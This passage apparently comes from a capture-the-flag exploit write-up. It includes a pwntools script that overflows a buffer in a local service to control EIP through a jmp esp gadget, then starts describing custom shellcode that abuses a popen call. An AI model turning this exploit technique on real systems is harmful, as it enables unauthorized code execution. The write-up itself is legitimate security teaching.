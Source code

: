 The following script would redirect the program flow onto the stack itself

```py
from pwn import *
context.os = 'linux'
context.arch = 'i386'
conn = remote("127.0.0.1", 4242)

print conn.recvuntil('users')

conn.send("X")
print conn.recvuntil('!')
print conn.recvuntil('!')
print conn.recvuntil('\x00')

shellcode = ''

pwn = 'A'*0x68
pwn += pack(0xe4ffffe4)
pwn += 'BBBB'	# this will go into ebp due to 'leave'
pwn += pack(0x0804936b)	# EIP Control here
pwn += shellcode # jmp esp will land here!
pwn += 'D'*(0xc8-0x68-0x8-len(shellcode))
conn.send(pwn)
```

Now, we just need some shellcode. 

At this point, you could try to find some sort of shellcode to exfiltrate the data on the many shellcode repositories out there. However, I wanted to try something else as I noticed something interesting earlier

### Designing the Shellcode

Earlier during the "menu" selection, what happens if we entered '1','2','3' command instead of the hidden 'X' command?

![12](img/12.png)

Based on whether '1', '2', '3' is entered, a different command line string is passed to a [popen](http://linux.die.net/man/3/popen) call which basically pipes, forks and invokes a shell using the command provided.

It takes in 2 arguments, both of which are Strings (char*)
- command to execute
- type of pipe ('r' for read, 'w' for write)
